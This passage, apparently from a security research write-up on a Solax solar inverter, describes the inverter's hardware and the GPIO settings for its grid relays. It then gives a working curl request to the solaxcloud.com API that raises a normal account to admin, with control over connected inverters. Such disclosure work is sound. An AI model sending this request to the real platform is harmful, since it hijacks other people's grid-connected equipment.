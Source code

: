 A DC/DC boost converter followed by a H-bridge converts the solar energy into grid compatible energy. 
There are two pairs of grid protection relays in series. One pair is controlled by the main CPU (GD32F427VET6) and the DSP together, the other one is controlled by the DSP only (TI TMS320F28035PNT). The H bridge transistors are controlled by the DSP.

The CPU is connected to the WiFi stick via USB. The WiFi Stick is connected - via a router - to a MQTT broker.

The cloud platform can be accessed by clients at `solaxcloud.com`.

### Relays control

In order to switch on all 4 relays, following GPIOs have to be set:
* DSP GPIO 39 set to '1' (power supply of the relay coils)
* DSP GPIO 40 set to '1' (Relay 2a)
* DSP GPIO 4 set to '1' (Relay 2b)
* CPU GPIO PB9 set to '0' (Relay 1a)
* CPU GPIO PE0 set to '0' (Relay 1b)

## Getting admin privileges on the cloud platform

It was simple to elevate privileges from a normal user `enduser` to `admin` by changing the user type `userType` with one API call. The `admin` user has complete control over the cloud platform and especially over the connected inverters.

Here is the api call to get admin privileges (replace the token with a valid session token and the user id `USER_ID` with the actual user id):

```sh
curl 'https://solaxcloud.com/blue/phoebus/login/editUserDetails' \
  -H 'Accept: application/json, text/plain, */*' \
  -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY' \
  -H 'User-Agent: okhttp' \
  -H 'token: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx' \
  --data-raw $'------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="userType"\r\n\r\n1\r\n------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="userName"\r\n\r\n\r\n------WebKitFormBoundaryY\r\nContent-Disposition: form-data; 
  name="id"\r\n\r\n[USER_ID]\r\n------WebKitFormBoundaryY--\r\n' 
```

This is the main page as `admin`:
